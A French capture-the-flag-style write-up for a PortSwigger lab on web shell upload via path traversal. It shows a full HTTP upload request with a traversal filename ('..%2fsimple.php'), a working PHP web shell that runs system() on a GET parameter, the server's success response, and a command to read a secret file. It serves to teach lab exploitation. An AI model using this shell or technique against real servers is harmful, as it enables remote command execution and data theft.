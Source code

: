 # Lab

https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal

## Solution

Il n'y a aucune restriction sur l'upload de fichiers php.

En revanche, lorqu'on accède au fichier qui est sité dans le répertoire `/files/avatar`, on voit que le php n'est pas interprété.

On peut essayer d'upload le fichier dans `files` via un path traversal lors de l'upload en modifiant dans le `Content-Disposition` le nom du fichier.

```http
POST /my-account/avatar HTTP/2
Host: 0ab1009703d4a61280d8f83b00e200f0.web-security-academy.net
Cookie: session=qqHqqxgxCDyADAvpMbcOMaXj45YzQlDc
Content-Length: 750
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0ab1009703d4a61280d8f83b00e200f0.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytBrdKSXyfEIoBMMN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ab1009703d4a61280d8f83b00e200f0.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

------WebKitFormBoundarytBrdKSXyfEIoBMMN
Content-Disposition: form-data; name="avatar"; filename="..%2fsimple.php"
Content-Type: application/octet-stream

<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2&<1');
    }
?>
</pre>
</body>
</html>
------WebKitFormBoundarytBrdKSXyfEIoBMMN
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarytBrdKSXyfEIoBMMN
Content-Disposition: form-data; name="csrf"

Ursg1zWnm8rDKH3NWWDrc2AjlGDdRW3r
------WebKitFormBoundarytBrdKSXyfEIoBMMN--
```

```http
HTTP/2 200 OK
Date: Fri, 13 Oct 2023 09:29:21 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 134

The file avatars/../simple.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Le fichier a bien été upload dans le répertoire `files` et on peut maintenant executer `cat /home/carlos/secret`.